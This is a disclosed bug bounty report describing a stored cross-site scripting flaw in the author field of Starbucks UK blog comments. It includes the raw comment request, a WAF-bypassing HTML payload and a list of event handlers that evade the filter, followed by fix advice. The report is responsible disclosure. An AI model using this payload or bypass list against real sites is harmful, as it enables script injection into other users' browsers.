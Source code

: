 # Stored XSS in comments on https://www.starbucks.co.uk/blog/*

## Report Details
- **Report ID**: 218226
- **URL**: https://hackerone.com/reports/218226
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-04-02T23:18:08.913Z
- **Disclosed**: 2017-06-27T17:13:40.679Z

## Reporter
- **Username**: bayotop
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,

there are a lot of published blog post under https://www.starbucks.co.uk/blog/*. You can find plenty of them using this google dork `site:www.starbucks.co.uk inurl:blog/`. Notice the comments functionality at the bottom at the page.

When a comment is sent the following request is made:
```http
POST /blog/addcomment HTTP/1.1
Host: www.starbucks.co.uk
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
X-NewRelic-ID: VQUHVlNSARACV1JSBAIGVA==
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.starbucks.co.uk/blog/setting-the-record-straight-on-starbucks-uk-taxes-and-profitability
Content-Length: 321
Cookie: [redacted]
Connection: close

Body=Nice&ParentId=0&PostID=1241&author=ope67164%40disaq.com
```
The values of the `Body` and `author` parameters will be rendered into the page as a new comment. The value from the `author` parameter is not correctly encoded. This allows to inject arbitrary valid HTML.

You seem to be using a WAF which will block request (500) containing `<script></script>` and various input matching `on*=`.  However, I managed to find a bypass:

```html
</li></ul></li></ul></div></div></div></div><test/onbeforescriptexecute=confirm`h1poc`>
```

This will work on latest FF as can be seen here: https://www.starbucks.co.uk/blog/setting-the-record-straight-on-starbucks-uk-taxes-and-profitability

Note that the closing tags are just to make the script execute (I'm sorry for the multiple payloads on that site, once the above comment was sent, all previous attempts started to work. Would be great if you could clean up the comments at the end).

Here is a list of all potential `on*=` events I could find, that will bypass your WAF an can be used to create cross-browser payloads:

```
onsearch
onwebkitanimationiteration
onwebkitanimationstart
onanimationiteration
onwebkitanimationend
onanimationstart
ondataavailable
ontransitionend
onanimationend
onreceived
onpopstate
```

To fix this issue make sure the `author` value is correctly encoded. It could be also taken from the current user's session instead of the POST data. Also I recommend adding the aforementioned events to your WAF blacklist.

Please let me know in case you need any more information from my side. 

## Attachments
No attachments
